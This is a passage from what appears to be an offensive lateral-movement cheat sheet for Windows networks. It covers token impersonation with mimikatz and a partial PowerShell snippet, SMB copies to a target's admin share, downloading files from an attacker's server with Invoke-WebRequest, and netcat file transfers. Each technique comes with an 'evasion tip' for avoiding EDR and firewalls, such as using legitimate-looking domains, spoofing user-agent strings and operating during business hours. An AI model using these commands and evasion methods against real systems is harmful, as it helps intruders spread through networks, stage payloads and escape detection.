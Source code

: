 - **Token Impersonation**:
  - **Tools**: `incognito` (Metasploit), `mimikatz`, PowerShell
  - **Example (PowerShell Token Impersonation)**:
    ```powershell
    # Requires admin privileges
    $tokenHandle = [IntPtr]::Zero
    $returnValue = [Advapi32]::OpenProcessToken(
        [Kernel32]::GetCurrentProcess(),
        [TokenAccessLevels]::TokenDuplicate -bor [TokenAccessLevels]::TokenImpersonate -bor [TokenAccessLevels]::TokenQuery,
        [ref]$tokenHandle)
    # Additional code required for full implementation
    ```
  - **Evasion Tip**: Token manipulation can be detected by EDR. Use sparingly and with legitimate tokens when possible.

## 4. File-Based Movement

These techniques involve transferring and executing files across systems.

- **SMB File Transfers**:
  - **Tools**: Built-in Windows commands, PowerShell
  - **Example (Copy File via SMB)**:
    ```cmd
    copy C:\local\file.txt \\<target>\C$\remote\file.txt
    ```
  - **Evasion Tip**: Use legitimate file shares when possible. Avoid writing to sensitive directories. Use during business hours.

- **Web-Based File Transfers**:
  - **Tools**: PowerShell `Invoke-WebRequest`, `curl`, `wget`
  - **Example (PowerShell Download)**:
    ```powershell
    Invoke-WebRequest -Uri "http://<your_server>/file.txt" -OutFile "C:\file.txt"
    ```
  - **Evasion Tip**: Use HTTPS. Mimic legitimate user-agent strings. Consider hosting files on legitimate-looking domains.

- **Alternative Channels**:
  - **Tools**: `netcat`, custom scripts
  - **Example (Netcat File Transfer)**:
    ```bash
    # On receiving end
    nc -l -p 8080 > received_file
    
    # On sending end
    nc <target> 8080 < file_to_send
    ```
  - **Evasion Tip**: Use common ports (80, 443) that are likely allowed through firewalls.

